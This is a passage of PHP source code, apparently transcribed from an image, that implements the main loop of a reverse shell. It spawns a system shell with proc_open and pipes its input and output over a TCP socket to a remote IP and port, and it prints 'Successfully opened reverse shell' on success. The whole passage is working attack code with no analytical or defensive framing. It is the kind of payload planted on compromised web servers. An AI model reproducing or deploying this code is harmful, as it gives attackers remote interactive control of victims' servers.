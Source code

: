 ```php
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}
```